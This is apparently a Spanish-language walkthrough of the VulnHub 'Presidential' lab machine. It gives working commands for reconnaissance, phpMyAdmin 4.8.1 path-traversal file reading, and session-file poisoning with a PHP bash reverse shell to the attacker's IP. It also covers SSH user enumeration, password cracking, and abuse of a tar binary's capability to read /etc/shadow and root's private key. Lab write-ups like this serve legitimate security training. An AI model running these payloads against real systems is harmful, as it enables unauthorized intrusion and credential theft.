


# Presidential - VulnHub

```
The Presidential Elections within the USA are just around the corner (November 2020). One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system, and falsifying the votes. 
The state of Ontario has therefore asked you (an independent penetration tester) to test the security of their server in order to alleviate any electoral fraud concerns. Your goal is to see if you can gain root access to the server – the state is still developing their registration website but has asked you to test their server security before the website and registration system are launched. 
```

## Reconocimiento

Vamos a hacer un barrido de la red para descubrir la IP de la máquina:

```bash
sudo arp-scan -I ens33 --localnet --ignoredups
192.168.0.39	00:0c:29:26:79:61	VMware, Inc.

whichSystem.py 192.168.0.39
192.168.0.39 (ttl -> 64): Linux
```
Vamos a realizar un escaneo de puertos con nmap para ver que servicios están corriendo en la máquina

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.39 -oG allPorts

PORT     STATE SERVICE  REASON
80/tcp   open  http     syn-ack ttl 64
2082/tcp open  infowave syn-ack ttl 64
```

Ahora vamos a realizar un escaneo más profundo de los puertos abiertos para ver que servicios están corriendo en la máquina:

```bash
nmap -sCV -p80,2082 192.168.0.39

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.5.38)
|_http-title: Ontario Election Services &raquo; Vote Now!
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.5.38
2082/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:40:f4:e5:8c:ad:1a:e6:86:de:a5:75:d0:a2:ac:80 (RSA)
|   256 e9:e6:3a:83:8e:94:f2:98:dd:3e:70:fb:b9:a3:e3:99 (ECDSA)
|_  256 66:a8:a1:9f:db:d5:ec:4c:0a:9c:4d:53:15:6c:43:6c (ED25519)
```

Vemos que el puerto 80 está corriendo un servidor web con Apache y PHP, mientras que el puerto 2082 está corriendo un servicio SSH.
En http-methods vemos que el método TRACE está habilitado, lo cual es un riesgo de seguridad.
El método TRACE permite a un atacante realizar un ataque de Cross Site Tracing (XST) y robar cookies de sesión.

Entramos a http://192.168.0.39/



Vamos a analizar las tecnologías que está usando la página web con whatweb:

```bash
whatweb 'http://192.168.0.39/'
http://192.168.0.39/ [200 OK] Apache[2.4.6], Bootstrap, Country[RESERVED][ZZ], Email[contact@example.com,contact@votenow.loca], HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.5.38], IP[192.168.0.39], JQuery, PHP[5.5.38], Script, Title[Ontario Election Services &raquo; Vote Now!]
```

Podemos contemplar votenow.local como dominio de la página web, lo cual nos puede dar una pista de que el archivo /etc/hosts de la máquina víctima tiene un registro para votenow.local.

También vemos que en el código fuente se utiliza un template de bootstrap llamado Flattern v2.1.0

Vamos a hacer una enumeración de directorios con gobuster para ver si encontramos algo interesante:

```bash
gobuster dir -u 'http://192.168.0.39' -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20

/assets               (Status: 301) [Size: 235] [--> http://192.168.0.39/assets/]
```

Dentro de la carpeta /assets encontramos los siguientes archivos:

```
[DIR]	css/ 	2020-06-26 19:38 	- 	 
[DIR]	img/ 	2020-06-17 09:33 	- 	 
[DIR]	js/ 	2020-06-17 09:33 	- 	 
[DIR]	vendor/ 	2020-06-17 09:33 	- 	 
```

```bash
gobuster dir -u 'http://votenow.local' -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --add-slash

/cgi-bin/             (Status: 403) [Size: 210]
/icons/               (Status: 200) [Size: 74409]
/assets/              (Status: 200) [Size: 1505]
```
Vamos a buscar por subdominios:

```bash
gobuster vhost -u http://votenow.local/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 20 --append-domain

Found: datasafe.votenow.local Status: 200 [Size: 9505]
```

Cambiamos el archivo /etc/hosts para agregar el subdominio datasafe.votenow.local:

```
192.168.0.39 datasafe.votenow.local votenow.local
```

Vemos que el subdominio datasafe.votenow.local tiene un formulario de login phpMyAdmin.

Ahora enumeramos los directorios de datasafe.votenow.local:

```bash
gobuster dir -u http://datasafe.votenow.local/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20

/templates            (Status: 301) [Size: 248] [--> http://datasafe.votenow.local/templates/]
/themes               (Status: 301) [Size: 245] [--> http://datasafe.votenow.local/themes/]
/doc                  (Status: 301) [Size: 242] [--> http://datasafe.votenow.local/doc/]
/scripts              (Status: 301) [Size: 246] [--> http://datasafe.votenow.local/scripts/]
/test                 (Status: 301) [Size: 243] [--> http://datasafe.votenow.local/test/]
/README               (Status: 200) [Size: 1520]
/examples             (Status: 301) [Size: 247] [--> http://datasafe.votenow.local/examples/]
/js                   (Status: 301) [Size: 241] [--> http://datasafe.votenow.local/js/]
/libraries            (Status: 301) [Size: 248] [--> http://datasafe.votenow.local/libraries/]
/ChangeLog            (Status: 200) [Size: 20501]
/vendor               (Status: 301) [Size: 245] [--> http://datasafe.votenow.local/vendor/]
/setup                (Status: 301) [Size: 244] [--> http://datasafe.votenow.local/setup/]
/sql                  (Status: 301) [Size: 242] [--> http://datasafe.votenow.local/sql/]
/tmp                  (Status: 301) [Size: 242] [--> http://datasafe.votenow.local/tmp/]
/LICENSE              (Status: 200) [Size: 18092]
/po                   (Status: 301) [Size: 241] [--> http://datasafe.votenow.local/po/]
```

Entramos en ChangeLog y vemos que la versión de phpMyAdmin es 4.8.1 por lo que vamos a buscar exploits para esta versión en searchsploit:

```bash
searchsploit phpMyAdmin 4.8.1

phpMyAdmin 4.8.1 - Remote Code Execution (RCE) | php/webapps/50457.py
```

Vamos a buscar ficheros interesantes con una busqueda super exaustiva:

```bash
gobuster dir -u http://192.168.0.39 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak,bak,tar

/.html                (Status: 403) [Size: 207]
/index.html           (Status: 200) [Size: 11713]
/about.html           (Status: 200) [Size: 20194]
/assets               (Status: 301) [Size: 235] [--> http://192.168.0.39/assets/]
/config.php           (Status: 200) [Size: 0]
/config.php.bak       (Status: 200) [Size: 107]
```

Nos metemos a config.php.bak y vemos que hay un datos de la base de datos:

```php
<?php

$dbUser = "votebox";
$dbPass = "casoj3FFASPsbyoRP";
$dbHost = "localhost";
$dbname = "votebox";

?>
```

Probamos a meternos en datasafe.votenow.local con el usuario votebox y la contraseña casoj3FFASPsbyoRP y vemos que nos logueamos correctamente.



Nos intentamos meter con el usuario votebox mediante SSH. Sin embargo no nos deja, por lo que vamos a enumerar los usuarios de ssh con un script de enumeración de usuarios de ssh

```bash
searchsploit OpenSSH 7.4

OpenSSH < 7.7 - User Enumeration (2) | linux/remote/45939.py

# Tuve que modificar el script para que el puerto por defecto sea 2082 y no 22

python2.7 45939.py 192.168.0.39 2>/dev/null votebox
[+] votebox is a valid username
python2.7 45939.py 192.168.0.39 2>/dev/null root
[+] root is a valid username
```

Lo que vimos en el exploit de phpMyAdmin es que hay una vulnerabilidad de ejecución remota de código (RCE) en la versión 4.8.1 mediante un directory path traversal. Por lo que vamos a intentar explotar esta vulnerabilidad para conseguir un reverse shell.

http://datasafe.votenow.local//index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd

```
root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin dbus:x:81:81:System message bus:/:/sbin/nologin polkitd:x:999:998:User for polkitd:/:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin chrony:x:998:996::/var/lib/chrony:/sbin/nologin apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin admin:x:1000:1000::/home/admin:/bin/bash mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
```

Vemos que podemos leer el archivo /etc/passwd, donde están los usuarios del sistema. Vemos que hay un usuario llamado admin, por lo que vamos a intentar hacer un brute force de la contraseña de este usuario mediante hydra.

```bash
python2.7 45939.py 192.168.0.39 2>/dev/null admin
[+] admin is a valid username
```
http://datasafe.votenow.local//index.php?target=db_sql.php%253f/../../../../../../../../var/log/apache2/access.log

http://datasafe.votenow.local//index.php?target=db_sql.php%253f/../../../../../../../../var/log/auth.log

Vamos a intentar ver los logs para intentar un log poisoning, sin embargo no dice que no existe

http://datasafe.votenow.local//index.php?target=db_sql.php%253f/../../../../../../../../proc/net/tcp

```
sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000    27        0 18898 1 ffff9daf75450000 100 0 0 10 0                     
   1: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 18079 1 ffff9daff6e087c0 100 0 0 10 0                     
   2: 00000000:0822 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 18016 1 ffff9daff6e08000 100 0 0 10 0                     
   3: 2700A8C0:0050 1300A8C0:D64A 01 00000000:00000000 02:000AFD0B 00000000    48        0 91627 2 ffff9daf77cad540 23 4 28 10 33 
```

Aquí están los puertos abiertos en hexadecimal, son los siguientes:

```
0CEA -> 3306 -> MySQL
0050 -> 80 -> HTTP
0822 -> 2082 -> SSH
```

para obtener el valor de la IP en hexadecimal, tenemos que invertir el orden de los bytes y luego convertirlo a decimal. Por ejemplo, para la IP 2700A8C0 sería:

```
C0 A8 00 27 -> 192.168.0.39
echo "$((0xC0))"
192
echo "$((0xA8))"
168
echo "$((0x00))"
0
echo "$((0x27))"
39
```

Podemos enumerar los procesos que están corriendo en la máquina:

http://datasafe.votenow.local//index.php?target=db_sql.php%253f/../../../../../../../../proc/shed_debug

Y también las ip

http://datasafe.votenow.local//index.php?target=db_sql.php%253f/../../../../../../../../proc/net/fib_trie


---

Ahora si que si ejecutamos el script de exploit de phpMyAdmin para conseguir un reverse shell:

Vamos a buscar mi identificador de sesión de phpMyAdmin para poder ejecutar el exploit, para ello vamos a inspeccionar la cookie de sesión en el navegador:

```
3km6kr5ttr5gg60h6cq1gl505pngtqs0
```

http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_3km6kr5ttr5gg60h6cq1gl505pngtqs0

Esto nos muestra información de la base de datos y como es un recurso php que interpreta el código php, podemos ejecutar código php en el apartado de SQL mediante lo siguiente:

```sql
select '<?php system("bash -i >& /dev/tcp/192.168.0.19/443 0>&1"); ?>' 
```

Le damos a GO y nos ponemos en escucha en el puerto 443 con netcat:

```bash
sudo nc -lvnp 443
```

Nos metemos aquí: http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_3km6kr5ttr5gg60h6cq1gl505pngtqs0

Y logramos entablar una reverse shell en la máquina víctima:

```bash
bash-4.2$ whoami
apache
```

Vamos a mandarnos otra reverse shell para poder usar la página web de datasafe.votenow.local para ejecutar código.

```bash
bash-4.2$ bash -i >& /dev/tcp/192.168.0.19/443 0>&1 &
```

Vamos a hacer un tratamiento de la TTY

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

Vamos a revisar los ficheros de configuración para ver si hay algo interesante:

```bash
find \-name \*config\* 2>/dev/null | grep "php*"

bash-4.2$ cd home
bash-4.2$ ls
admin
```

Vemos que hay una carpeta home/admin, pero solo admin se puede meter a ella.

En la base de datos de phpMyAdmin vemos que hay una tabla llamada users, por lo que vemos que hay un hash de contraseña de un usuario llamado admin.

Vamos a crackear el hash de contraseña con john:

```bash
john -w:/usr/share/wordlists/rockyou.txt hash.txt

john --show hash
?:Stella
```

```bash
su - admin
Password: Stella

Last login: Sun Jun 28 00:42:34 BST 2020 on pts/0
[admin@votenow ~]$ ls
notes.txt  user.txt
[admin@votenow ~]$ cat user.txt 
663ba6a402a57536772c6118e8181570
```

Conseguimos el user flag, ahora vamos a intentar conseguir el root flag.

```bash
id
uid=1000(admin) gid=1000(admin) groups=1000(admin)

[admin@votenow ~]$ uname -a
Linux votenow.local 3.10.0-1127.13.1.el7.x86_64 #1 SMP Tue Jun 23 15:46:38 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
[admin@votenow ~]$ cat /etc/os-release 
NAME="CentOS Linux"
VERSION="7 (Core)"
```

Podriamos intentar hacer un kernel exploit para conseguir el root flag, sin embargo vamos a buscar primero si hay algún archivo con permisos de root que podamos ejecutar.

```bash
sudo -l
# Nada para el usuario admin
```

```bash
find / -perm -4000 2>/dev/null 

/usr/bin/chfn
/usr/bin/chsh
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

Podemos explotar pkexec para conseguir el root flag, ya que es un binario SUID que permite ejecutar comandos como root pero no es la idea para esta máquina.

/usr/bin/crontab tiene suid pero no es explotable.

```bash
getcap -r / 2>/dev/null

/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/bin/tarS = cap_dac_read_search+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
```

VEmos que hay un binario llamado tarS que tiene el capability cap_dac_read_search, lo cual nos permite leer cualquier archivo del sistema aunque no tengamos permisos para ello.

```bash
tarS -cvf shadow.tar /etc/shadow
tar -xvf shadow.tar
cd etc
chmod 777 shadow
cat shadow

```
root:$6$BvtXLMHn$zoYCSCRbdnaUOb4u3su6of9DDUXeUEe05OOiPIQ5AWo6AB3FWRr/RC3PQ4z.ryqn6o5xS9g4JTKHYI4ek9y541:18440:0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
systemd-network:!!:18440::::::
dbus:!!:18440::::::
polkitd:!!:18440::::::
sshd:!!:18440::::::
postfix:!!:18440::::::
chrony:!!:18440::::::
apache:!!:18440::::::
admin:$6$QeT4IOER$tHg/DAvc5NegomFKFryL5Xe7Od05z7CkYYs9sdRQaQVnJYvsXm2tQljaUhgXVMG8jXaChhhmny6MhD2K5jFXF/:18440:0:99999:7:::
mysql:!!:18440::::::
```

Para escalar privilegios vamos a comprimir la clave privada de root para el ssh

```bash
tarS -cvf id_rsa.tar /root/.ssh/id_rsa
tar -xvf id_rsa.tar
cd root/.ssh
cat id_rsa

ssh -i id_rsa root@localhost -p 2082
[root@votenow ~]# whoami
root
```

```bash
[root@votenow ~]# cat root-final-flag.txt 
Congratulations on getting root.

 _._     _,-'""`-._
(,-.`._,'(       |\`-/|
    `-.-' \ )-`( , o o)
          `-    \`_`"'-

This CTF was created by bootlesshacker - https://security.caerdydd.wales

Please visit my blog and provide feedback - I will be glad to hear from you.
```

## Conclusión

Hemos conseguido escalar privilegios y obtener el root flag mediante la explotación de la vulnerabilidad de ejecución remota de código (RCE) en phpMyAdmin 4.8.1 y posteriormente utilizando el binario SUID tarS para acceder a archivos protegidos del sistema.